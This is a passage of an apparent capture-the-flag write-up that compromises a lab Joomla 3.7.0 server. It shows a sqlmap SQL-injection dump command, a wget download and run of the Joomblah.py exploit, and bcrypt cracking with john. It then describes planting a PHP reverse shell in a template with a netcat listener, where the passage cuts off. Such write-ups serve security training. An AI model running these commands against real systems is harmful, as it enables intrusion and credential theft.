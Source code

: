 Thus, we ran joomscan on this website and discovered the version 3.7.0 being run

joomscan -u http://10.10.91.172

![](https://blogger.googleusercontent.com/img/a/AVvXsEhakG8ZlYC3f4V_0KcWD9fjPdTfNFbxH2cFRhPUVtc2c5hh4Q8C5O3v_z5ZShulgR3BbYcECDeEZW_zjVn3aVEPHxLt7CJoGp3G3mUA13k1eM2GLh2MQPRA4fFFjAwsQn6l0LBL7uAwzOxm39LTi5fRdh4mQPvofSFELIKCvIGGlv1HAG7QXuNrc4GjIw=s16000)

Right away we looked out for public exploits for this installed instance using searchsploit and discovered that version 3.7.0 was vulnerable to SQLi via the com_fields parameter.

searchsploit joomla 3.7.0

searchsploit -m 42033

**![](https://blogger.googleusercontent.com/img/a/AVvXsEiGbxsLeRA853OEWItjJv3GSfub_6eT9dw-6K2Jq1884y-v6Wi3QpiUQKTBddxNXuFf0tUCCgYFwXaRdus2yNYK4YH0Mqrqh_6dt9CoeyZK8ztf_07LKfNE2qOPh9UM1X6vbTpIb7SQu-IWQVk4lEmaj4VYqq1J5INNFDcXoBwk-Kj2DpTPDc_uYAIANw=s16000)**

### Exploitation

As exploit number 42033 told us, this sql injection vulnerability could be exploited by the following command

sqlmap -u "http://10.17.32.212/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]

![](https://blogger.googleusercontent.com/img/a/AVvXsEiHhXa3jtipy1CO29WxYaQh9NJTXjh51tyhQoFYnfhJPz5avmsFIxFDqyEZCw76A4PWE91vfdrSORYKPBc9oj0VFx5_SkwX6crcv77NUStEGZINXq382CeRWFUjqVGn0PoM9m4vR06RPFJ1x5gRTsB8lEM0PTiOzbHe3GEr7ujliHd2hUuyRf0tdatIFA=s16000)

However, while running this scan, it was taking way too long and so, we looked out for another script called “Joomblah.py” which is a POC for this SQLi vulnerability in Joomla v3.7.0. So we downloaded this script, ran and found credentials!

wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py

python2.7 joomblah.py http://10.10.91.172

![](https://blogger.googleusercontent.com/img/a/AVvXsEhf14J_masBIM5DT-W3tIH1EcwA3Sso33B-lbAL4FDksHMNHS2-F-Jzk-7Oq8cH_k7QB-J4J229vNdIPlNJr8tE0JHcPFAv1JrL7NezBJIJKADnokCXwCTbW9hOuCD1Sb7PqKRwnWMGP47ftYY9LFWwCg-tsRlKqjtj-4v9SRV5X2IfPvc7bG0dr1EpwA=s16000)

We had discovered the hash but to know it’s type we googled it up and found it was  
bcrypt”

![](https://blogger.googleusercontent.com/img/a/AVvXsEgaJB6Rf9Vz8mR7iUHycd35n59vPSWQHk3bBfZZwnNWqAHOoW1zJMF-o2lbdKhKvC5l4EXfQBeBXU_iOjJB8rdIjx8V1KdGxHtLn0PG-cxRLMXX3hW2tryxd-zUV8U2mZAYlkfRo1U24aHx0EkNqDcaVrWn8l5j4pEJi9O6GJcXhdxyQQW8kBPBWXcc2Q=s16000)

Thus we saved this hash in a  file and used john to crack them

cat hash

john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash

![](https://blogger.googleusercontent.com/img/a/AVvXsEhZSojChgR2YopgwwcKsZFffnhQ05Tx5oXRb_4vzba84YYYngX5Vjmp6UuVLYvH8ZmlWGKCM_RMxFEADxNhCHebLj6q2So4v98ctLQRg-aiDEbSpEH_Y_rxYxpWzIVUO6LzzV_d0ywi1E10BwljU4VLfemOYX6Ub6PB9N77RyglSn0fi-gVECyUl6FH3A=s16000)

We see we have received clear text credentials. We logged in to the admin panel using this and can see a dashboard now!

![](https://blogger.googleusercontent.com/img/a/AVvXsEjDRa74V7ML_dQBn8CUsI_59j-Hjf-qTfcY2cz99YEktxsHj0zKeMRZcYOX0n3kic3bXFvRUnnIIv9y03jB0-6SjCY6xEg2lt3979pbzRN3doBrvPHFdcxRyHpkYQlzG9PpQVNr7QzuZx1i6WjBYsca1wwql0VJvdmI9fXPzbZhmPE9KYMNYP2c46PGPA=s16000)

Like with any other CMS, Joomla also has templates that are running on PHP, therefore, right away we copied the php-reverse-shell.php code in the template file and clicked on template preview. Before launching template preview we also set up a netcat listener
